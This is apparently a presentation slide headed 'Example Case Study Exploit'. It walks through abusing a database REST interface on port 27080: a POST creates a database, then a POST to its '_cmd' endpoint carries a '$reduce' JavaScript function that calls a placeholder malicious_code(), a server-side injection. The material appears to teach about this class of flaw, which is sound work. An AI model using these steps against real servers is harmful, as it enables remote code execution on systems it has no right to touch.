

# Example Case Study Exploit
The problem is not in the two databases.  The problem is that you are working with a REST API and resources are dynamic.
So POST to the following url to create a new database called test which is accessible at “/test”:
	POST http://svr.com:27080/test
The POST the following:
	POST http://svr.com:27080/test/_cmd
With the following body:
	cmd={…, “$reduce”:”function (obj, prev) { malicious_code() }” …